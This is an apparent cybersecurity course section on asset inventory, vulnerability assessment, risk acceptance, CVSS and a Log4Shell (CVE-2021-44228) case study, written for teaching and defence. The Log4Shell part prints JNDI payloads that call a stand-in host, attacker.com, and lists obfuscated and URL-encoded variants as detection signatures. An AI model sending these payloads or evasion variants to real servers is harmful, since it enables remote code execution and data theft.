





> **Goal of this section:**
> You'll understand what a Vulnerability Assessment is, and how organizations find their weaknesses and decide what to do about them. You'll also see a real example showing how a single vulnerability like Log4Shell can completely devastate systems.
---

## Table of Contents

- [Asset Inventory](#asset-inventory)
- [What is a Vulnerability Assessment](#what-is-a-vulnerability-assessment)
- [Risk Acceptance — When Organizations Choose Not to Fix](#risk-acceptance--when-organizations-choose-not-to-fix)
- [Risk Rating and CVSS](#risk-rating-and-cvss)
- [VA vs Penetration Testing](#va-vs-penetration-testing)
- [Case Study — Apache Log4j Log4Shell](#case-study--apache-log4j-log4shell)
- [SOC Analyst Perspective — Detecting Log4Shell](#soc-analyst-perspective--detecting-log4shell)
- [Summary](#summary)

---

## Asset Inventory

### Why Does the Asset Inventory Matter in the First Place?

Imagine you work at a large company with thousands of servers and endpoints. Can you say you know every device on the network? Most likely not.

The truth is that many organizations, even those with SOC teams, constantly discover systems they didn't even know existed. This happens for many reasons:

- Old, forgotten systems (**Legacy Systems**)
- Devices installed without documentation (**Shadow IT**)
- Rapid infrastructure expansion without organized records

If you don't know what you have, you can't protect it.

### What Is an Asset Inventory?

An **Asset Inventory** is an organized, up-to-date list of everything the organization owns or operates that has security value. It includes:

| Asset Type | Examples |
|---|---|
| Physical Devices | Servers, Workstations, Printers, Routers |
| Virtual Machines | Cloud Instances, Containers |
| Software & Applications | Web Apps, Databases, SaaS Tools |
| Network Devices | Firewalls, Switches, Access Points |
| Data Stores | File Servers, Backup Systems, Cloud Storage |

### Why Is the Inventory Essential for Security?

```
Without an inventory → you don't know what you have
           ↓
You can't perform a proper Vulnerability Assessment
           ↓
There will be unprotected systems you don't know about
           ↓
The attacker will get in without you noticing
```

> [!IMPORTANT]
> The Asset Inventory is the first step before any Vulnerability Assessment. You can't protect something you don't know exists.

---

## What is a Vulnerability Assessment

### Definition

A **Vulnerability Assessment** is a systematic, organized process that aims at:

1. **Identifying**: discovering weaknesses in systems, networks, and applications
2. **Analyzing**: understanding the nature and cause of each vulnerability
3. **Prioritizing**: ranking vulnerabilities by severity so you know where to start

### How Is It Done?



> [!NOTE]
> A VA discovers vulnerabilities without exploiting them; that's the key difference between it and Penetration Testing.

---

## Risk Acceptance — When Organizations Choose Not to Fix

### What Does the CISO Decide?

Not every vulnerability has to be fixed immediately. That's not laziness; it's a deliberate business decision. The **CISO (Chief Information Security Officer)** evaluates each vulnerability based on multiple factors and decides to:

- **Remediate**: fix the vulnerability
- **Accept the Risk**: formally accept the risk and document it
- **Mitigate**: put controls in place that reduce the risk without fully resolving it
- **Transfer**: transfer the risk (for example, through insurance)

### The Factors That Determine the Decision



### Illustrative Example

Imagine there's a vulnerability in an old, isolated system that isn't connected to the internet:

- **Likelihood**: Very low, because it's isolated
- **Impact**: Medium
- **Cost of Remediation**: Very high (it would require stopping production for two weeks)
- **Regulatory Consequences**: There are no legal requirements related to this system

**Decision**: Accept the Risk, with formal documentation and periodic monitoring.

> [!WARNING]
> Risk Acceptance doesn't mean ignoring the vulnerability. It must be formally documented and reviewed regularly. If circumstances change (for example, the system gets connected to the internet), the decision must be revisited.

> [!IMPORTANT]
> The absence of **Regulatory Consequences** can lead some organizations to be lax about protecting certain data. That's exactly why security frameworks and compliance requirements (such as GDPR, PCI-DSS, or ISO 27001) play a pivotal role in forcing organizations to maintain a consistent level of protection.

---

## Risk Rating and CVSS

### What Is CVSS?

**CVSS (Common Vulnerability Scoring System)** is a standardized system for rating the severity of vulnerabilities. It gives you a score from **0 to 10**.

| Score | Severity |
|---|---|
| 0.0 | None |
| 0.1 – 3.9 | Low |
| 4.0 – 6.9 | Medium |
| 7.0 – 8.9 | High |
| 9.0 – 10.0 | Critical |

### What Does CVSS Calculate?

The score is affected by several factors:



- **Attack Vector**: Where is the attack launched from? Network / Adjacent / Local / Physical
- **Attack Complexity**: Is it hard or easy to carry out?
- **Privileges Required**: Does it require privileges or not?
- **User Interaction**: Does it require the user to do something?
- **Impact (CIA)**: How much does it affect Confidentiality / Integrity / Availability?

### CVE — Common Vulnerabilities and Exposures

Every known vulnerability gets a **CVE ID**, which is like a national ID number for the vulnerability.

```
CVE-[Year]-[Sequence Number]
Example: CVE-2021-44228  ← this is the CVE for Log4Shell
```

You can see the details of any CVE at: [https://nvd.nist.gov](https://nvd.nist.gov)

> [!NOTE]
> Not every vulnerability has a CVSS score. A system can be weak because of a **Misconfiguration** rather than a code vulnerability, and in that case legitimate tools may be used to carry out the attack (such as using PowerShell in a Living off the Land attack).

---

## VA vs Penetration Testing

| Criterion | Vulnerability Assessment | Penetration Testing |
|---|---|---|
| Goal | Discovering and assessing vulnerabilities | Proving actual exploitation |
| Exploitation | No | Yes |
| Depth | Broad but less deep | Deeper, on a narrower scope |
| Output | A list of vulnerabilities with risk ratings | A report proving real business impact |
| Performed by | VA Team / Security Tools | Ethical Hackers / Red Team |
| Frequency | Periodic (for example, every quarter) | Less frequent |

> [!TIP]
> VA and Pen Testing aren't substitutes for each other; they're complementary. Start with a VA to understand the scope, then use a Pen Test to prove the real business impact.

---

## Case Study — Apache Log4j Log4Shell

### What Is Log4j?

**Log4j** is a very popular Java library used for **Logging**, that is, recording events and operations in applications.

You'll find it in:
- Web Applications
- Cloud Services
- Even security tools themselves

### CVE-2021-44228 — The Vulnerability

**CVSS Score: 10.0 (Maximum Critical)**

This is the highest possible score, for clear reasons:

| Property | Value |
|---|---|
| Attack Vector | Network (Remote) |
| Attack Complexity | Low |
| Privileges Required | None |
| User Interaction | None |
| Confidentiality Impact | High |
| Integrity Impact | High |
| Availability Impact | High |

### The Vulnerability in Detail

Log4j had a feature called **JNDI Lookup**. JNDI stands for **Java Naming and Directory Interface**.

The idea is that when Log4j logs a message, it can interpret whether the message contains a certain expression and fetch data from an external server.

```
The problem: Log4j logs any input → including HTTP headers
The exploit: If the input contains ${jndi:ldap://attacker.com/a}
The result:  The server connects to the attacker's server, fetches malicious code, and executes it
```

### The Attack Flow



### Payload Example

```
${jndi:ldap://attacker.com/exploit}
```

If the server is vulnerable, as soon as Log4j logs this header, it connects to the attacker's server and executes the code.

### Why Is It So Dangerous?

- **Zero effort**: The attacker just sends a normal HTTP request with the payload in the header
- **Ubiquitous**: Log4j is present in millions of systems
- **Remote Code Execution**: It gives you full control over the server
- **Impact**: Data theft, file encryption (ransomware), destruction of systems

### The Fix

```bash
# The primary fix: Upgrade
Log4j2 >= 2.17.1 (for Java 8)

# A temporary workaround if you can't upgrade
# Disable JNDI lookups:
log4j2.formatMsgNoLookups=true

# Or through an environment variable:
LOG4J_FORMAT_MSG_NO_LOOKUPS=true
```

---

## SOC Analyst Perspective — Detecting Log4Shell

### Your Role as a SOC Analyst

As a GRC student, your focus is on risk assessment and the CVSS score. But as a **SOC Analyst**, your question is different:

**"How do I detect that someone is trying to exploit this vulnerability?"**

### The Right Way to Think

If the payload arrives through an HTTP header in a URL request:



### Log Artifacts to Look For

If you're conducting an investigation, look for:

```
In HTTP Logs / Proxy Logs / WAF Logs:

1. These strings in the headers:
   - ${jndi:
   - ${jndi:ldap://
   - ${jndi:rmi://
   - ${jndi:dns://

2. In DNS Logs:
   - Outbound DNS queries to strange domains
   - DNS lookups from the application server itself

3. In Network Logs:
   - Outbound LDAP connections (Port 389)
   - Outbound RMI connections (Port 1099)
   from the application server to external addresses
```

### The Security Solutions Responsible for Detection

| Tool | Its Role in Detecting Log4Shell |
|---|---|
| WAF | Inspects HTTP headers and blocks malicious payloads |
| IDS/IPS | Detects suspicious patterns in network traffic |
| SIEM | Collects logs, performs correlation, and generates alerts |
| Proxy | Logs all outbound traffic and can detect JNDI connections |
| EDR | Detects whether a new process was created on the server after exploitation |

> [!TIP]
> You can use AI tools in an investigation, but what matters is that you understand the output they produce and know how to interpret it, not just copy the results. A good SOC analyst is one who knows how to ask the right questions.

> [!WARNING]
> The payload may be URL-encoded or Base64-encoded to evade simple string matching. WAF rules and detection signatures must cover these variants:
> ```
> %24%7Bjndi%3A    ← URL Encoded version of ${jndi:
> ${${lower:j}ndi:  ← Obfuscated version
> ```

---

## Summary

### Section Summary

- **Asset Inventory** is the foundation: you can't protect something you don't know exists. It must be an organized, up-to-date list of all assets.

- **Vulnerability Assessment** is a systematic process for discovering, analyzing, and prioritizing security vulnerabilities, without exploiting them.

- **Risk Acceptance** is a deliberate business decision, not negligence. The CISO evaluates the likelihood, impact, cost, and regulatory consequences before deciding.

- **CVSS** is the standardized system for rating vulnerability severity from 0 to 10. Not every vulnerability has a CVSS score; misconfigurations, for example, don't.

- **Log4Shell (CVE-2021-44228)** is a live example of a CVSS 10.0 vulnerability. It's exploited by sending a JNDI payload in an HTTP header, which makes the server connect to the attacker's server and execute malicious code.

- **As a SOC Analyst**: Your focus is on detection. Look for `${jndi:` in HTTP headers and for unusual outbound LDAP/DNS connections in the logs. The key tools: WAF, IDS/IPS, SIEM, Proxy Logs.
